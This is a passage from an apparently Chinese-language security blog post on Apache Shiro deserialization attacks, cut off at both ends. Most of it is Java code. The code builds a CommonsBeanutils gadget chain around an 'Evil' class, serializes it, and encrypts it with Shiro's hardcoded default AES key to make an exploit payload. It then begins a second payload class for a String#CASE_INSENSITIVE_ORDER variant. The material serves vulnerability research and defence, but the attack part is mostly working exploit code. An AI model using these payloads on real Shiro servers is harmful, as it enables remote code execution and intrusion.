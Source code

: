 ```
        setFieldValue(queue, "queue", new Object[]{obj, obj});

        // ==================
        // 生成序列化字符串
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();

        return barr.toByteArray();
    }

    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(Evil.class.getName());

        byte[] payloads = new CommonsBeanutilsAttrCompare().getPayload(clazz.toBytecode());

        AesCipherService aes = new AesCipherService();
        byte[] key = java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");

        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());
    }

}

```

最终实际结果

![](https://img-blog.csdnimg.cn/0a6fb4c59be54d3d95fc711a8354e6f1.gif)



----

### String#CASE_INSENSITIVE_ORDER

该类在p牛文章详细介绍了，这里直接贴代码吧。

```
package summersec.shirodemo.Payload;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

/**
 * @ClassName: CommonsBeanutils1Shiro
 * @Description: TODO
 * @Author: Summer
 * @Date: 2021/5/19 16:23
 * @Version: v1.0.0
 * @Description: 参考https://www.leavesongs.com/PENETRATION/commons-beanutils-without-commons-collections.html
```
